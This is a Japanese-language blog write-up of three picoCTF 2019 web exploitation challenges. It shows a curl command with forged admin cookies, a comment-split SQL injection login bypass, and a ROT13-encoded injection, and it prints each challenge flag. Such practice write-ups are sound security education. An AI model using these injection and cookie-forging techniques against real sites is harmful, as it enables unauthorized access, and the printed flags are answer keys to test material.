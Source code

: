 ```yaml
---
title: "picoCTF 2019 Writeup (Web Exploitation)"
date: 2019-10-13T12:00:00+09:00
lastmod: 2019-10-13T12:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: "きゃぷあめ"
---
```

URL: [https://2019game.picoctf.com/](https://2019game.picoctf.com/)
<br /><br />
2週間、お疲れ様です。

<br /><br />
最終結果は、こんな感じ。

<img src="https://captureamerica.github.io/writeups/img/pico2019_Score.png" alt="pico2019_Score.png">

<br />
イベント終了時点で、ユーザは4万人弱でした。

<img src="https://captureamerica.github.io/writeups/img/pico2019_Users.png" alt="pico2019_Users.png">

<img src="https://captureamerica.github.io/writeups/img/pico2019_Rank.png" alt="pico2019_Rank.png">

PwnとWeb系があんまりできてないけど、スコアも切りのいい20000に行ったし、Globalで目標の300位以内 (283位) にも入れたのでかなり満足です。

去年出た問題に似てるものも結構あったので、picoCTF 2018をそれなりにやった人は結構アドバンテージがあったと思います。



<br /><br />
Web Exploitation の Writeupです。




<br /><br />
## [Web Exploitation]: Open-to-admins (200 points)
- - -
### Challenge
> This secure website allows users to access the flag only if they are admin and if the time is exactly 1400. https://2019shell1.picoctf.com/problem/32249/ (link) or http://2019shell1.picoctf.com:32249
<br /><br />
Hints : Can cookies help you to get the flag?<br />

<br />
### Solution
```
curl -k -H 'Cookie: admin=True; time=1400'  https://2019shell1.picoctf.com/problem/32249/flag
```


Flag: `picoCTF{0p3n_t0_adm1n5_cc661e91}`



<br /><br />
<br /><br />
## [Web Exploitation]: Irish-Name-Repo 2 (350 points)
- - -
### Challenge
> There is a website running at https://2019shell1.picoctf.com/problem/60775/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://2019shell1.picoctf.com:60775
<br /><br />
Hints : The password is being filtered.

<br />
### Solution
picoCTF 2018のVaultと同じ問題です。

デバッグを見ようとして、以下を入れたら、Flag取れちゃった。
```
username
' /*

password
*/ or 3=3 -- &debug=1
```

Flag: `picoCTF{m0R3_SQL_plz_015815e2}`




<br /><br />
<br /><br />
## [Web Exploitation]: Irish-Name-Repo 3 (400 points)
- - -
### Challenge
> There is a secure website running at https://2019shell1.picoctf.com/problem/12271/ (link) or http://2019shell1.picoctf.com:12271. Try to see if you can login as admin!
<br /><br />
Hints : Seems like the password is encrypted.


<br />
### Solution
Burpでやったらdebug変数が見えたので、1に変えてみました。

```
POST /problem/12271/login.php HTTP/1.1
Host: 2019shell1.picoctf.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Connection: close
Referer: https://2019shell1.picoctf.com/problem/12271/login.html
Upgrade-Insecure-Requests: 1

password=admin&debug=1
```

```
password: admin
SQL query: SELECT * FROM admin where password = 'nqzva'
```

'nqzva' は、'admin' のRot13ですね。

<br />
いつものこの子を、
```
' or 1=1 --
```

Rot13して以下のようにします。
```
' be 1=1 --
```

Flag: `picoCTF{3v3n_m0r3_SQL_ef7eac2f}`



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />


